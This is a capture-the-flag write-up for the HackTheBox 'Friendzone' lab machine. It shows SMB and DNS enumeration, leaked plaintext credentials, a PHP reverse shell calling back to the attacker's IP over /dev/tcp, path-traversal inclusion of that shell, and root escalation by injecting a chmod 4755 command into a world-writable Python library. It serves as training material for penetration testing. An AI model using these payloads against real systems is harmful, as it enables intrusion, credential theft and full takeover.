




---
search:
  exclude: true
---
# Friendzone Writeup

## Introduction :

Friendzone is an easy Linux box released back in Febuary 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
      → nmap -F 10.10.10.123
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-07 09:04 CET
      Nmap scan report for 10.10.10.123
      Host is up (0.15s latency).
      Not shown: 93 closed ports
      PORT    STATE SERVICE
      21/tcp  open  ftp
      22/tcp  open  ssh
      53/tcp  open  domain
      80/tcp  open  http
      139/tcp open  netbios-ssn
      443/tcp open  https
      445/tcp open  microsoft-ds
    
      Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
      → nmap -sC -sV 10.10.10.123 -p 21,22,53,80,139,443,445
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-07 09:05 CET
      Nmap scan report for 10.10.10.123
      Host is up (0.036s latency).
    
      PORT    STATE SERVICE     VERSION
      21/tcp  open  ftp         vsftpd 3.0.3
      22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
      |   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
      |_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
      53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
      | dns-nsid:
      |_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
      80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: Friend Zone Escape software
      139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
      443/tcp open  ssl/http    Apache httpd 2.4.29
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: 404 Not Found
      | ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
      | Not valid before: 2018-10-05T21:02:30
      |_Not valid after:  2018-11-04T21:02:30
      |_ssl-date: TLS randomness does not represent time
      | tls-alpn:
      |_  http/1.1
      445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
      Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
      Host script results:
      |_clock-skew: mean: -39m30s, deviation: 1h09m16s, median: 28s
      |_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <****unknown>, NetBIOS MAC: <****unknown> (unknown)
      | smb-os-discovery:
      |   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
      |   Computer name: friendzone
      |   NetBIOS computer name: FRIENDZONE\x00
      |   Domain name: \x00
      |   FQDN: friendzone
      |_  System time: 2019-12-07T10:06:20+02:00
      | smb-security-mode:
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2019-12-07T08:06:20
      |_  start_date: N/A
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 28.42 seconds

## **Part 2 : Getting User Access**

Our nmap scan picked up the samba service running on both port 139 and 445. So we run the smb map command with it's -H flag in order to enumerate the shares we can work with.
    
    
      λ root [ 10.10.14.48/23 ] [/home/nihilist/_HTB] → smbmap -H 10.10.10.123 -p 445,139
    /bin/smbmap:1036: SyntaxWarning: "is" with a literal. Did you mean "=="?
      if len(sys.argv) is 1:
    [+] Finding open SMB ports....
    [!] Authentication error on 10.10.10.123
    

Seems like smbmap has got some problems on archlabs, but no worries, enum4linux is there to the rescue. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → enum4linux 10.10.10.123
    Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Dec  7 09:12:14 2019
    
     ==========================
    |    Target Information    |
     ==========================
    Target ........... 10.10.10.123
    RID Range ........ 500-550,1000-1050
    Username ......... ''
    Password ......... ''
    Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
    
    
     ====================================================
    |    Enumerating Workgroup/Domain on 10.10.10.123    |
     ====================================================
    Can't load /etc/samba/smb.conf - run testparm to debug it
    [+] Got domain/workgroup name: WORKGROUP
    
     ============================================
    |    Nbtstat Information for 10.10.10.123    |
     ============================================
    Can't load /etc/samba/smb.conf - run testparm to debug it
    Looking up status of 10.10.10.123
    	FRIENDZONE      <****00> -         B <****ACTIVE>  Workstation Service
    	FRIENDZONE <****03> -         B <****ACTIVE>  Messenger Service
    	FRIENDZONE <****20> -         B <****ACTIVE>  File Server Service
    	..__MSBROWSE__. <****01> - <****GROUP> B <****ACTIVE>  Master Browser
    	WORKGROUP <****00> - <****GROUP> B <****ACTIVE>  Domain/Workgroup Name
    	WORKGROUP <****1d> -         B <****ACTIVE>  Master Browser
    	WORKGROUP <****1e> - <****GROUP> B <****ACTIVE>  Browser Service Elections
    
    	MAC Address = 00-00-00-00-00-00
    
     =====================================
    |    Session Check on 10.10.10.123    |
     =====================================
    [+] Server 10.10.10.123 allows sessions using username '', password ''
    
     ===========================================
    |    Getting domain SID for 10.10.10.123    |
     ===========================================
    Unable to initialize messaging context
    rpcclient: Can't load /etc/samba/smb.conf - run testparm to debug it
    [+] Can't determine if host is part of domain or part of a workgroup
    
     ======================================
    |    OS information on 10.10.10.123    |
     ======================================
    Use of uninitialized value $os_info in concatenation (.) or string at /usr/bin/enum4linux line 464.
    [+] Got OS info for 10.10.10.123 from smbclient:
    [+] Got OS info for 10.10.10.123 from srvinfo:
    Unable to initialize messaging context
    rpcclient: Can't load /etc/samba/smb.conf - run testparm to debug it
    
     =============================
    |    Users on 10.10.10.123    |
     =============================
    Use of uninitialized value $users in print at /usr/bin/enum4linux line 874.
    Use of uninitialized value $users in pattern match (m//) at /usr/bin/enum4linux line 877.
    
    Use of uninitialized value $users in print at /usr/bin/enum4linux line 888.
    Use of uninitialized value $users in pattern match (m//) at /usr/bin/enum4linux line 890.**=========================================
    |    Share Enumeration on 10.10.10.123    |
     =========================================
    Unable to initialize messaging context
    smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
    
    	Sharename       Type      Comment
    	---------       ----      -------
    	print$          Disk      Printer Drivers
    	Files           Disk      FriendZone Samba Server Files /etc/Files
    	general         Disk      FriendZone Samba Server Files
    	Development     Disk      FriendZone Samba Server Files
    	IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))
    Reconnecting with SMB1 for workgroup listing.
    
    	Server               Comment
    	---------            -------
    
    	Workgroup            Master
    	---------            -------
    	WORKGROUP            FRIENDZONE
    
    [+] Attempting to map shares on 10.10.10.123
    //10.10.10.123/print$	Mapping: DENIED, Listing: N/A
    //10.10.10.123/Files	Mapping: DENIED, Listing: N/A
    //10.10.10.123/general	Mapping: OK, Listing: OK
    //10.10.10.123/Development	Mapping: OK, Listing: OK
    //10.10.10.123/IPC$	[E] Can't understand response:
    Unable to initialize messaging context
    smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
    NT_STATUS_OBJECT_NAME_NOT_FOUND listing \***
     ====================================================
    |    Password Policy Information for 10.10.10.123    |
     ====================================================
    [E] Unexpected error from polenum:
    Traceback (most recent call last):
      File "/usr/bin/polenum", line 16, in <****module>
        from impacket.dcerpc.v5.rpcrt import DCERPC_v5
    ImportError: No module named impacket.dcerpc.v5.rpcrt
    [+] Retieved partial password policy with rpcclient:
    
    
    
     ==============================
    |    Groups on 10.10.10.123    |
     ==============================
    
    [+] Getting builtin groups:
    
    [+] Getting builtin group memberships:
    
    [+] Getting local groups:
    
    [+] Getting local group memberships:
    
    [+] Getting domain groups:
    
    [+] Getting domain group memberships:
    
     =======================================================================
    |    Users on 10.10.10.123 via RID cycling (RIDS: 500-550,1000-1050)    |
     =======================================================================
    
     =============================================
    |    Getting printer info for 10.10.10.123    |
     =============================================
    Unable to initialize messaging context
    rpcclient: Can't load /etc/samba/smb.conf - run testparm to debug it
    
    
    enum4linux complete on Sat Dec  7 09:12:20 2019

Looking at the results, we have a few ports to work with. Let's check out the shares available for us using the smbclient command. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → smbclient \\\\10.10.10.123\\general
    Unable to initialize messaging context
    smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
    Enter WORKGROUP\nihilist's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Wed Jan 16 21:10:51 2019
      ..                                  D        0  Wed Jan 23 22:51:02 2019
      creds.txt                           N       57  Wed Oct 10 01:52:42 2018
    
    		9221460 blocks of size 1024. 6459232 blocks available
    smb: \> get creds.txt
    getting file \creds.txt of size 57 as creds.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
    smb: \> exit
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → mv creds.txt Friendzone/creds.txt
    mv: cannot move 'creds.txt' to 'Friendzone/creds.txt': No such file or directory
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → mkdir Friendzone
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → mv creds.txt Friendzone/creds.txt
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → cd Friendzone
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Friendzone ]
    → cat creds.txt
    creds for the admin THING:
    
    admin:WORKWORKHhallelujah@#
    

We seem to have a password to work with ! WORKWORKHhallelujah@# Now let's use nmap's smb share enumeration script.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Friendzone ]
      → nmap 10.10.10.123 --script smb-enum-shares
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-07 09:39 CET
      Nmap scan report for 10.10.10.123
      Host is up (0.043s latency).
      Not shown: 993 closed ports
      PORT    STATE SERVICE
      21/tcp  open  ftp
      22/tcp  open  ssh
      53/tcp  open  domain
      80/tcp  open  http
      139/tcp open  netbios-ssn
      443/tcp open  https
      445/tcp open  microsoft-ds
    
      Host script results:
      | smb-enum-shares:
      |   account_used: guest
      |   \\10.10.10.123\Development:
      |     Type: STYPE_DISKTREE
      |     Comment: FriendZone Samba Server Files
      |     Users: 0
      |     Max Users: <****unlimited>
      |     Path: C:\etc\Development
      |     Anonymous access: READ/WRITE
      |     Current user access: READ/WRITE
      |   \\10.10.10.123\Files:
      |     Type: STYPE_DISKTREE
      |     Comment: FriendZone Samba Server Files /etc/Files
      |     Users: 0
      |     Max Users: <****unlimited>
      |     Path: C:\etc\hole
      |     Anonymous access: <****none>
      |     Current user access: <****none>
      |   \\10.10.10.123\IPC$:
      |     Type: STYPE_IPC_HIDDEN
      |     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
      |     Users: 1
      |     Max Users: <****unlimited>
      |     Path: C:\tmp
      |     Anonymous access: READ/WRITE
      |     Current user access: READ/WRITE
      |   \\10.10.10.123\general:
      |     Type: STYPE_DISKTREE
      |     Comment: FriendZone Samba Server Files
      |     Users: 0
      |     Max Users: <****unlimited>
      |     Path: C:\etc\general
      |     Anonymous access: READ/WRITE
      |     Current user access: READ/WRITE
      |   \\10.10.10.123\print$:
      |     Type: STYPE_DISKTREE
      |     Comment: Printer Drivers
      |     Users: 0
      |     Max Users: <****unlimited>
      |     Path: C:\var\lib\samba\printers
      |     Anonymous access: <****none>
      |_    Current user access: <****none>
    
      Nmap done: 1 IP address (1 host up) scanned in 10.82 seconds

Browsing to the 80th port, we are greeted with a simple html page with a picture. Although we are hinted towards domain name resolution at the bottom, so let's see what lies at the https port in order to see if we can enumerate the DNS part of this box a little further using the SSL certificate. 

  

Seems like we have a hostname to work with : friendzone.red let's do a quick dns lookup using the dig command.
    
    
    
      λ root [ 10.10.14.48/23 ] [/home/nihilist/_HTB] → pacman -S blackarch/python2-dnsknife
    
      λ root [ 10.10.14.48/23 ] [/home/nihilist/_HTB] → dig axfr @10.10.10.123 friendzone.red
    
    ; <<>> DiG 9.14.8 <<>> axfr @10.10.10.123 friendzone.red
    ; (1 server found)
    ;; global options: +cmd
    friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
    friendzone.red.		604800	IN	AAAA	::1
    friendzone.red.		604800	IN	NS	localhost.
    friendzone.red.		604800	IN	A	127.0.0.1
    administrator1.friendzone.red. 604800 IN A	127.0.0.1
    hr.friendzone.red.	604800	IN	A	127.0.0.1
    uploads.friendzone.red.	604800	IN	A	127.0.0.1
    friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
    ;; Query time: 39 msec
    ;; SERVER: 10.10.10.123#53(10.10.10.123)
    ;; WHEN: Sat Dec 07 10:13:25 CET 2019
    ;; XFR size: 8 records (messages 1, bytes 289)
    

Looking at the results, we seem to have found administrator1.friendzone.red and uploads.friendzone.red . Since HackTheBox doesn't do DNS we'll add the following line into our /etc/hosts file :
    
    
    10.10.10.123    administrator1.friendzone.red uploads.friendzone.red
    

Browsing to the administrator1.friendzone.red URI we are greeted by a login prompt. 

Using the credentials we found earlier, we are able to login : 

Earlier our enum4linux scan picked up the Development SMB Share : 
    
    
      λ root [ 10.10.14.48/23 ] [/home/nihilist/_HTB] → smbclient -H //10.10.10.123/Development
      Unable to initialize messaging context
      smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
      Enter WORKGROUP\nihilist's password:
      Try "help" to get a list of possible commands.
      smb: \> ls
        .                                   D        0  Sat Dec  7 09:40:17 2019
        ..                                  D        0  Wed Jan 23 22:51:02 2019
    

This is where we will upload our reverse php shell, just pick up a quick oneliner for us to use and upload it : 
    
    
      <****?php
     echo("nihilist WAS HERE");
     exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.48/9001 0>&1'");
    
    
    
      smb: \> put nihilist_rev.php
    putting file nihilist_rev.php as \nihilist_rev.php (0.9 kb/s) (average 0.9 kb/s)
    smb: \> ls
      .                                   D        0  Sat Dec  7 10:38:01 2019
      ..                                  D        0  Wed Jan 23 22:51:02 2019
      nihilist_rev.php                        A      101  Sat Dec  7 10:38:02 2019
    
    		9221460 blocks of size 1024. 6460304 blocks available
    
    smb: \> exit
    
    λ root [ 10.10.14.48/23 ] [/home/nihilist/_HTB] → nc -lvnp 9001
    

Once the reverse shell is uploaded, we ready our terminal with the nc command in order to catch the incoming reverse shell connection onto our 9001st port. Then we browse to our reverse php shell from within the webbrowser and see the result :
    
    
      https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename;=../../../../../../../../../etc/Development/nihilist_rev.php
    

This does not work because the URI must not end with .php ! So you need to browse to this URI :
    
    
      https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename;=../../../../../../../../../etc/Development/nihilist_rev
    

And see that our terminal catched the reverse shell connection. 
    
    
      λ root [ 10.10.14.48/23 ] [/home/nihilist/_HTB] → nc -lvnp 9001
    Connection from 10.10.10.123:58526
    bash: cannot set terminal process group (556): Inappropriate ioctl for device
    bash: no job control in this shell
    
    www-data@FriendZone:/var/www/admin$ uname -a
    uname -a
    Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    
    www-data@FriendZone:/var/www/admin$ whoami
    whoami
    www-data
    

And that's it ! we have been able to login as www-data, now let's see if we have enough permissions to print out the user flag.
    
    
    www-data@FriendZone:/var/www/admin$ cd /home
    cd /home
    
    www-data@FriendZone:/home$ ls
    ls
    friend
    
    www-data@FriendZone:/home$ cd friend
    cd friend
    www-data@FriendZone:/home/friend$ ls
    ls
    user.txt
    
    www-data@FriendZone:/home/friend$ cat user.txt
    cat user.txt
    a9XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now we need to escalate privileges onto the machine. To do so, let's first take a look at the mysql_data.conf file located in /var/www.
    
    
      www-data@FriendZone:/home/friend$ cd /var/www
      cd /var/www
      www-data@FriendZone:/var/www$ ls
      ls
      admin
      friendzone
      friendzoneportal
      friendzoneportaladmin
      html
      mysql_data.conf
      uploads
      www-data@FriendZone:/var/www$ cat mysql_data.conf
      cat mysql_data.conf
      for development process this is the mysql creds for user friend
    
      db_user=friend
    
      db_pass=Agpyu12!0.213$
    
      db_name=FZ
    

seems like we have credentials to work with ! friend:Agpyu12!0.213$ let's try to privesc using the su command.
    
    
      www-data@FriendZone:/var/www$ su friend
    su friend
    su: must be run from a terminal
    
    www-data@FriendZone:/var/www$ which python
    which python
    /usr/bin/python
    

That's not a problem, we should be able to fool the system into thinking we are running commands from a TTY session, by using python's pty module.
    
    
    www-data@FriendZone:/var/www$ python -c 'import pty; pty.spawn("/bin/sh")'
    python -c 'import pty; pty.spawn("/bin/sh")'
    
    $ su friend
    su friend
    Password: Agpyu12!0.213$
    
    friend@FriendZone:/var/www$ whoami
    whoami
    friend
    

Now let's take a look into the /opt directory. There seems to be an interesting folder for us to look into :
    
    
      friend@FriendZone:/var/www$ cd /opt
      cd /opt
      friend@FriendZone:/opt$ ls
      ls
      server_admin
      friend@FriendZone:/opt$ ls -la
      ls -la
      total 12
      drwxr-xr-x  3 root root 4096 Oct  6  2018 .
      drwxr-xr-x 22 root root 4096 Oct  5  2018 ..
      drwxr-xr-x  2 root root 4096 Jan 24  2019 server_admin
      friend@FriendZone:/opt$ cd server_admin
      cd server_admin
      friend@FriendZone:/opt/server_admin$ ls
      ls
      reporter.py
      friend@FriendZone:/opt/server_admin$ cat reporter.py
      cat reporter.py
      #!/usr/bin/python
    
      import os
    
      to_address = "admin1@friendzone.com"
      from_address = "admin2@friendzone.com"
    
      print "[+] Trying to send email to %s"%to_address
    
      #command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''
    
      #os.system(command)
    
      # I need to edit the script later
      # Sam ~ python developer
      friend@FriendZone:/opt/server_admin$
    

Seems like the python script is importing a library named "os", let's see if we can enumerate it. 
    
    
      friend@FriendZone:/opt/server_admin$ ls -ld /usr/lib/python2.7/os.py
    ls -ld /usr/lib/python2.7/os.py
    -rwxrwxrwx 1 root root 25910 Jan 15  2019 /usr/lib/python2.7/os.py
    

Whoa ! The os.py libary has got the 777 permissions, This is a serious security flaw as we're about to demonstrate : 
    
    
    friend@FriendZone:/opt/server_admin$ echo "system('chmod 4755 /bin/bash')" >> /usr/lib/python2.7/os.py
    echo "system('chmod 4755 /bin/bash')" >> /usr/lib/python2.7/os.py
    friend@FriendZone:/opt/server_admin$ ^[[A^[[A
    friend@FriendZone:/opt/server_admin$ ls -l /bin/bash
    -rwxr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
    

Wait a little while for the cronjob to execute the python script, and you should see the permissions of /bin/bash changing. 
    
    
      friend@FriendZone:/opt/server_admin$ ^[[A
      ls -l /bin/bash
      -rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
      friend@FriendZone:/opt/server_admin$ /bin/bash -p
      /bin/bash -p
      bash-4.4# whoami
      whoami
      root
      bash-4.4# cat /root/root.txt
      cat /root/root.txt
      b0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag.

## **Conclusion**

Here we can see the progress graph :

